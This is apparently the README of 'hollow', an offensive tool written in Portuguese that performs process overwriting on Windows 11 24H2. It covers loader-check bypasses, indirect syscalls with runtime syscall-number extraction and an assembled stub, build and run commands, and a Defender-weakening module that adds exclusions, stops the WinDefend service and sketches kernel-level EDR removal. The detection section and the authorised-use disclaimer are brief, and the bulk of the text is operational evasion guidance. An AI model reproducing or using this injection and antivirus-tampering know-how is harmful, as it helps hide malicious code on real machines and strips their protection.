

# hollow

**Process overwriting** — a variante moderna de *process hollowing* que funciona no Windows 11 24H2.
x64, payload sem CRT, memória de operação via syscalls indiretos.


> **Uso autorizado apenas.** Este material existe para pesquisa em segurança, desenvolvimento de
> detecção e testes em máquinas próprias ou com autorização escrita do responsável. Executar em
> sistemas de terceiros é crime na maioria das jurisdições e está fora do escopo do projeto.

| | |
|---|---|
| **Alvo** | Windows 11 24H2 (build 26100), x64 |
| **Técnica** | Process Overwriting (imagem sobrescrita in-place, `MEM_IMAGE` preservado) |
| **Testado em** | Windows 11 Enterprise Evaluation 26100.1742 — SYSTEM, Defender RT **on**, Tamper Protection **on** |
| **Resultado** | payload executou dentro de `rundll32.exe` (PID e caminho de imagem do host) |

---

## 1. O problema: por que o RunPE clássico morre no 24H2

No Windows 11 24H2 o loader passou a chamar, na inicialização do processo:

```
LdrpInitializeProcess
  └─ LdrpProcessMappedModule
       └─ RtlpInsertOrRemoveScpCfgFunctionTable
            └─ ZwQueryVirtualMemory(MemoryImageExtensionInformation)
```

Essa classe de informação **só aceita região image-backed (`MEM_IMAGE`)**. O RunPE tradicional
escreve o payload em memória privada (`MEM_PRIVATE`), a query falha com `STATUS_INVALID_ADDRESS`
(`0xC0000141`) e o processo morre antes de executar.

Com **Memory Integrity (HVCI)** ligado aparece um segundo erro, `0xC00004AC`: `NtManageHotPatch`
retorna `STATUS_CONFLICTING_ADDRESSES` durante `LdrpQueryCurrentPatch`.

Duas saídas possíveis:

1. **Patch no ntdll** — filtrar `ZwQueryVirtualMemory` para o endereço do implante e neutralizar
   `NtManageHotPatch`. Mantém o RunPE, mas exige hook em processo suspenso e quebra a cada build.
2. **Mapear como imagem** — usar as variantes que criam/seção ou reaproveitam uma imagem real.
   É o caminho deste projeto.

> Referência: hasherezade, *Process Hollowing on Windows 11 24H2* (jan/2025).

---

## 2. Como o `hollow` funciona

Process Overwriting: o payload **sobrescreve a imagem já mapeada do host**, sem `unmap`.

```
1. CreateProcessW(host, CREATE_SUSPENDED)
2. NtQueryInformationProcess        -> PEB -> PEB->ImageBaseAddress
3. NtProtectVirtualMemory + NtWriteVirtualMemory
      headers + cada seção, restaurando a proteção natural de cada uma
   -> as páginas continuam MEM_IMAGE (VAD de imagem), então o loader do 24H2 aceita
4. ResolveImports                   -> IAT preenchida manualmente
5. SetThreadContext(Rip = base + entry)   [quando necessário]
6. ResumeThread
```

Por que isso engana o loader: o `PEB->ImageBaseAddress` não muda, `GetProcessImageFileName`
continua devolvendo o caminho do host, e a imagem é image-backed de verdade. O processo
resultante é indistinguível de um `rundll32.exe` normal para as APIs de enumeração.

### 2.1 Resolução manual da IAT (obrigatória, não defensiva)

Medido no guest: quando `CreateProcess(CREATE_SUSPENDED)` retorna, o loader **já passou** de
`LdrInitializeThunk`, ou seja, ninguém vai inicializar a imagem que acabamos de escrever.
O log do próprio loader confirma:

```
[*] IAT do payload preenchida
[*] entry ajustado manualmente (Rip != LdrInitializeThunk)
```

Sem esse passo, o primeiro `call [__imp_WinExec]` cai em ponteiro nulo.

### 2.2 Syscalls indiretos com SSN em runtime

Nada de SSN hardcoded (quebra a cada build do Windows). O loader:

1. lê o stub de cada função em `ntdll` e extrai o SSN
   (aceita `mov r10,rcx; mov eax,ssn` e, se o stub estiver hookado, anda pelos vizinhos — *Tartarus Gate*);
2. localiza um gadget `syscall; ret` dentro do `.text` do `ntdll`;
3. monta em memória RX um stub próprio:

```asm
4C 8B D1          mov  r10, rcx
B8 <ssn>          mov  eax, <ssn>
FF 25 00000000    jmp  qword [rip+0]
<endereço do gadget>
```

O salto é indireto por memória de propósito: `mov rax, gadget; jmp rax` destruiria o SSN em
`EAX` e o `syscall` iria para o serviço errado. Esse bug existiu aqui e foi pego no teste.

---

## 3. Estrutura

```
hollow/
├── build.sh              build cross-platform (zig ou mingw)
├── src/
│   ├── nt.h              definições NT + assinaturas das Nt* usadas
│   ├── syscalls.{h,cpp}  motor de syscall indireto (SSN runtime + stub)
│   ├── pe.{h,cpp}        parse do PE, relocations, reconstrução da imagem
│   ├── overwrite.cpp     loader: spawn, PEB, overwrite, IAT, entry, resume
│   └── defense.{h,cpp}   leitura/ajuste do Defender (registry + SCM)
├── payload/
│   └── payload.cpp       imagem implantada: calc + BTC + marcador (sem CRT)
├── tools/
│   ├── gen_secret.py     ofusca strings em tempo de build (XOR por índice)
│   └── peinfo.py         inspeção de PE (SizeOfImage, relocs, ASLR)
├── docs/
│   ├── logo.png
│   └── shots/            capturas do laboratório
├── lab/                  VM de teste (ver lab/README.md)
└── dist/                 binários gerados
```

---

## 4. Build

Requer um toolchain Windows x64. Sem root, o mais simples é o Zig (embute mingw-w64):

```bash
# opção A: zig portátil
curl -LO https://ziglang.org/download/0.17.1/zig-x86_64-linux-0.17.1.tar.xz
tar -xJf zig-x86_64-linux-0.17.1.tar.xz -C ~/.local/opt
export ZIG=~/.local/opt/zig/zig
./build.sh

# opção B: mingw-w64 do sistema
pacman -S mingw-w64-gcc     # ajuste o compilador no build.sh
```

O `build.sh` gera `dist/hollow.exe` e `dist/payload.exe` e imprime o `SizeOfImage` de ambos.

**Regra de dimensão:** `SizeOfImage(payload) <= SizeOfImage(host)`. O loader checa antes de
escrever e aborta com os dois números na tela.

---

## 5. Uso

```cmd
hollow.exe --payload payload.exe
hollow.exe --host C:\Windows\System32\notepad.exe --payload payload.exe
hollow.exe --dry-run --payload payload.exe     :: valida PE e dimensões, não executa
hollow.exe --no-defender --payload payload.exe
```

Saída típica:

```
hollow — process overwriting (24H2-safe)
  host    : C:\Windows\System32\rundll32.exe
  admin   : sim
  tamper  : LIGADO
[*] syscalls: 7 stubs | gadget=00007FFF1DF9E9A2
[*] payload: SizeOfImage=20480 entry=+0x103b sections=4
[*] host suspenso pid=796
[*] imagem sobrescrita (paginas seguem MEM_IMAGE)
[*] IAT do payload preenchida
[*] entry ajustado manualmente (Rip != LdrInitializeThunk)
[*] thread liberada — payload em execucao
```

---

## 6. Resultado no laboratório

Windows 11 Enterprise Evaluation **26100.1742**, contexto SYSTEM, Defender RT on, TP on:



Marcador gravado pelo payload — prova de que o código rodou **dentro** do host:

```
tag=overwrite pid=796 host=C:\Windows\System32\rundll32.exe
```

Detalhes e evidências em [`lab/reports/evidence/`](lab/reports/evidence/).

---

## 7. O que o teste derrubou

| Achado | Consequência |
|---|---|
| Loader já passou de `LdrInitializeThunk` no `CREATE_SUSPENDED` | resolução manual da IAT é **obrigatória** |
| `mov rax, gadget` anula o SSN em `EAX` | stub trocado por `jmp [rip+0]` |
| Zig não seta `IMAGE_FILE_EXECUTABLE_IMAGE` (`Characteristics=0`) | não usar esse bit como validação de PE |
| `TamperProtection` = `1` no 24H2 Eval (não `5`) | detecção corrigida para `{0,4}` = desligado |

---

## 8. Defender e Tamper Protection

O loader é honesto sobre o que consegue e o que não consegue:

| Ação | TP desligado | TP ligado |
|---|---|---|
| `DisableAntiSpyware` / `DisableRealtimeMonitoring` (policy) | aplica | ignorado |
| Exclusão via registry (`...\Exclusions\Paths`) | aplica | **negado** |
| Exclusão via `Add-MpPreference -ExclusionPath` | aplica | **aplica** (API do serviço) |
| `ControlService(WinDefend, STOP)` | para | **negado** |
| `WinDefend start=disabled` | aplica | **negado** |

Com TP ligado, desligar o Defender em userland não é viável — o caminho real é kernel
(BYOVD: remover callbacks `PsSetCreateProcessNotifyRoutineEx`/`ObRegisterCallbacks`,
inutilizar `WdFilter`). Fora do escopo deste binário, e limitado por `DriverSiPolicy.p7b`,
HVCI e KDP nas builds atuais.

---

## 9. Superfície de detecção

O que esta técnica **deixa** visível:

- `CreateProcess` de um host legítimo — evento de **kernel** (`PsSetCreateProcessNotifyRoutineEx`),
  não dá para esconder em userland; o disfarce é o processo *parecer* legítimo, não o ato de criar;
- `NtProtectVirtualMemory` + `NtWriteVirtualMemory` sobre a imagem de outro processo
  (padrão clássico, bem coberto por EDR);
- ETW `Microsoft-Windows-Kernel-Process` / image-load callbacks;
- varredura de memória: a imagem é válida, mas o `.text` não corresponde ao arquivo em disco
  (PE-sieve marca como *replaced/hollowed*).

Mitigações usuais em engajamento real: mapear como `MEM_IMAGE` nomeado, evitar RWX
(aqui já não há), e reduzir a janela entre overwrite e resume.

---

## 10. Limitações

- Só funciona em processo **recém-criado** (não injeta em processo já rodando).
- `SizeOfImage` do payload precisa caber no host.
- Imagem sem `.reloc` só é aceita se `RELOCS_STRIPPED` estiver limpo (caso PIC).
- O payload de exemplo termina com `ExitProcess`, o que encerra o host junto. Um implante real
  não faria isso.
- Sem assinatura de código: o binário é detectável estaticamente como não assinado.

---

## 11. Referências

- hasherezade — *Process Hollowing on Windows 11 24H2* (2025) e o PoC `process_overwriting`
- Elastic — *Process Ghosting* (2021), *Process Herpaderping* (2020)
- MITRE ATT&CK — T1055.012 (Process Hollowing), T1055.013 (Process Doppelgänging)
- ntdoc (m417z) — `MemoryImageExtensionInformation`
